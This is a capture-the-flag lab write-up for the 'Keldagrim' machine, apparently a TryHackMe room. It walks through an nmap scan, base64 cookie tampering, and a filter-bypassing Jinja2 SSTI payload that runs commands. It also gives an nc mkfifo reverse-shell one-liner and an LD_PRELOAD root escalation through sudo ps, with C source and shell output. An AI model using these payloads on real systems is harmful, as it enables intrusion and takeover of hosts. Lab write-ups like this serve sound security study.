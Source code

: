##Keldagrim

#Enumeration
```
# Nmap 7.91 scan initiated Thu May  6 13:36:46 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,80 10.10.203.185
Nmap scan report for 10.10.203.185
Host is up, received timestamp-reply ttl 61 (0.14s latency).
Scanned at 2021-05-06 13:36:47 PDT for 12s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1ElGI0HLd8mhCV1HC0Mdnml4FZPMr17SrcABm6GMKV0g5e4wQNtSPAvXhGj696aoKgVX1jDbe4DzDGr3jDkLjXegnpqQyVQnSYV7Cz9pON4b9cplT/OPK/7cd96E7tKFsZ3F+eOM51Vm6KeYUbZG0DnHZIB7kmPAH+ongqQmpG8Of/wXNgR4ONc6dD/lTYWCgWeCEYT0ERlErkqM05mO9DwV+7Lr+AZhAZ8afx+NSpV17gBZzjmqT4my3zMAf3Ne0VY/exvb807YKiHmPPaieE8KxjfRjcsHGsMuYesDm3m0cUvGSdp2xfu8J5dOSNJc5cVse6RBTPmPu4giRtm+v
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBETP4uMiwXXjEW/UWp1IE/XvhxASBN753PiuZmLz6QiSZE3y5sIHpMtXA3Sss4bZh4DR3hoP3OhXgJmjCJaSS4=
|   256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJVgfo2NhVXDfelQtZw0p6JWJLPk2/1NF3KRImlYIIul
80/tcp open  http    syn-ack ttl 61 Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-cookie-flags:
|   /:
|     session:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title:  Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  6 13:36:59 2021 -- 1 IP address (1 host up) scanned in 12.68 seconds
```

Just ssh and a web server ports are open so lets check out the page.

#Web Server Port 80
A gold buying website for mmo's. We start by looking at the source code and pages before we try enumerating directories and subdomains with gobuster. We find a couple interesting things. Firstly a admin page that is grayed out from being selected but a link to is viewable in the source code at /admin. Going to it seems to simply put us on the home page, but maybe we have a session cookie we can manipulate to change this. We find a session cookie with the following value.
```
echo 'Z3Vlc3Q=' | base64 -d
guest
```
so lets convert admin to base64 and see if we see anything new. Sure enough admin is no longer grayed out and going to /admin gives us a page that says
```
Current user - $2,165
```

Seems pretty odd but its a static value in the source code, however we have a new cookie now called sales with the following value.
```
echo 'JDIsMTY1' | base64 -d
$2,165
```

Interesting lets test for XSS,
```
<script>alert('XSS')</script> -> base64-> PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

using this produce the following in the source code,
```
&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;
```

Looks like a filter on at least the following characters
```
<
>
'
```

I went ahead and tried to bypass this filter a few ways, but before I get too carried away here I want to look at the other thing I initially noticed.

there is a directory /static/images that has images stored for the page however when trying to load the directory itself something interesting occurs.
```

Error - Page Not Found

There has been an error when trying to view staticimages! Please return back to the site

```
The same occurs when trying to go to /static as well. So it seems like its the directories are restricted but it then tries to load it as a page as opposed to a directory and the / is being bypassed. So before we worry about the filter lets see if we have SSTI.

```
/${7*7}

There has been an error when trying to view ${7*7}! Please return back to the site

/{{7*7}}

There has been an error when trying to view 49! Please return back to the site

/{{7*'7'}}

There has been an error when trying to view 7777777! Please return back to the site
```

So we definitely have SSTI on likely a jinja2 or twig framework, but with some filters so lets switch over to burpsuite and use the following payload to try and bypass the filters
```
GET {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

There has been an error when trying to view uid=1000(jed) gid=1000(jed) groups=1000(jed)
```

Awesome, we have bypassed the filter and got the id command to execute so let's just take a normal reverse shell such as rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f, and then hex-encoded it with /x delimiters and try and replace the 'id' command with it. Sure enough we get a hit on our listener and we have a foothold

#Initial Foothold/Privilege Escalation
We get a shell as the jed user in their home directory and can find the user.txt flag here. Next we find the following,
```
jed@keldagrim:~$ sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

ps doesn't have any entries on GTFObins however we can still run it as root with no password and in conjuction with LD_PRELOAD we can try the following privilege escalation method from 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ld_preload-and-nopasswd

we first verify that gcc is on the system and then make the following shell.c file
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

then execute the following
```
jed@keldagrim:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
  setgid(0);
  ^~~~~~
  setenv
shell.c:7:2: warning: implicit declaration of function ‘setuid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
  setuid(0);
  ^~~~~~
  setenv
jed@keldagrim:~$ sudo LD_PRELOAD=/home/jed/shell.so ps
# cd /root
# ls -la
total 28
drwx------  4 root root 4096 Dec  4 22:22 .
drwxr-xr-x 24 root root 4096 Dec  4 19:38 ..
lrwxrwxrwx  1 root root    9 Dec  4 22:21 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Dec  4 22:09 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Dec  4 22:15 root.txt
drwx------  2 root root 4096 Nov  9 00:57 .ssh
```

We successfully have root access and claim our root.txt flag! Thinking back we could have explored using the cookie to execute SSTI instead of XSS and likely would have been able to use a similar payload to extract information and establish a foothold.
